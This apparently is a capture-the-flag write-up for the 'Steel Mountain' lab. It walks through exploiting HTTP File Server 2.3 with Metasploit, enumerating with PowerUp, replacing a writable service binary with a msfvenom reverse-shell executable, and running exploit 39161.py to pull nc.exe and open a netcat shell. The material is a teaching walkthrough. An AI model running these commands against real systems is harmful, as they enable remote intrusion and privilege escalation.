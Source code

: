 # Steel Mountain

## Task2 

```bash
searchsploit http file server 2.3 
searchsploit -u <Id> 

msfconsole
> search http file server 2.3
> use 3 
> set rhosts <Target_IP>
> set rport 8080
> exploit
```

## Task3
To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

We can download the script [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1).  If you want to download it via the command line, be careful not to download the GitHub page instead of the raw script. Now you can use the upload command in Metasploit to upload the script.

```bash
# Metasploit
>upload /tmp/PowerUp.ps1
```
To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell:
```bash
load powershell
powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks | Where-Object { $_.CanRestart -eq "True" }
```

The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

Use msfvenom to generate a reverse shell as an Windows executable.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.33.201 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe

```

We need the listener so put the service in background

```bash
Ctrl-z
background
use exploit/multi/handler
show options
set payload windows/shell/reverse_tcp
set LHOST <Local_IP>
set LPORT 4443
exploit -j
session -i 1
cd C:\Program Files (x86)\IObit
upload /tmp/ASCService
shell
sc stop AdvancedSystemCareService9
COPY ./ASCService.exe "Advanced SystemCare"
sc start AdvancedSystemCareService9
```

# Task4 
```bash
searchsploit -m 39161.py
```
Change local IP and the port to 9001. Then open tmux session and make three windows.

```bash
# Window 1 
python3 -m http.server 80
```

```bash
# window 2 
nc -lvnp 9001
```

```bash
# Window 3 
python2 39161.py <Target_IP> 8080
```

The window 3 need to be run twice to gain access to the system. First time it will download the nc.exe which is in our current directory. Second, it will get access to windows powershell.


